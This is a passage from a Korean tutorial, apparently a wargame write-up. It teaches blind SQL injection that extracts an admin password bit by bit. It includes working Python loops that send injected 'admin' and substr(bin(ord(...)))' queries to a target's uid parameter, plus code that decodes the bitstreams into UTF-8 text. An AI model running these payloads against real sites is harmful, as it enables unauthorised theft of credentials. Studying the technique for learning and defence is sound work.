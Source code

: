 Figure4 Find each characters bitstream length

```python
for i in range(1, password_length + 1):
    bit_length = 0
    while True:
        bit_length += 1
        query = f"admin' and length(bin(ord(substr(upw, {i}, 1)))) = {bit_length}-- -"
        r = get(f"{host}/?uid={query}")
        if "exists" in r.text:
            break
    print(f"character {i}'s bit length: {bit_length}")
```

## 각 문자 별 비트열 추출
각 문자 별 비트열의 길이를 구했다면 다음으로 각 문자 별 비트열을 모두 추출해야 합니다

비트열의 길이를 구할 때와 비슷한 방식으로 쿼리를 작성할 수 있습니다
admin' and substr(bin(ord(substr(upw,{i},1)))), {j},1 = '1'-- -

Figure5 Find each characters bitstream

```python
bits = ""
for j in range(1, bit_length + 1):
    query = f"admin' and substr(bin(ord(substr(upw, {i}, 1))), {j}, 1) = '1'-- -"
    r = get(f"{host}/?uid={query}")
    if "exists" in r.text:
        bits += "1"
    else:
        bits += "0"
print(f"character {i}'s bits: {bits}")
```

## 비트열을 문자로 변환
패스워드의 각 비트열을 모두 추출했다면 이를 다시 문자로 변환해주어야 합니다

이 때 한글과 같이 아스키 코드 범위가 아닌 문자의 경우 인코딩에 유의하여 변환해주어야 합니다

예를들어 가 의 경우 utf-8 로 인코딩하였을 때 \xea\xb0\x80 로 표현됩니다

이를 비트열로 표현하면 111010101011000010000000 가 됩니다
비트열을 다시 문자로 변환하기 위해서는 다음과 같은 순서로 진행해야 합니다

1. 비트열을 정수로 변환
2. 정수를 Big Endian 형태의 문자로 변환
3. 변환된 문자를 인코딩에 맞게 변환

비트열을 정수로 변환하기 위해 int 클래스를 사용할 수 있고 정수를 Big Endian 형태로 변환하기 위해 int.to_bytes 함수를 사용할 수 있습니다
마지막으로 문자를 인코딩에 맞게 변환하기 위해 bytes.decode 함수를 사용할 수 있습니다

Figure6 Bitstream to character

```python
password = ""
for i in range(1, password_length + 1):
    ...
    password += int.to_bytes(int(bits, 2), (bit_length + 7) // 8, "big").decode("utf-8")
```
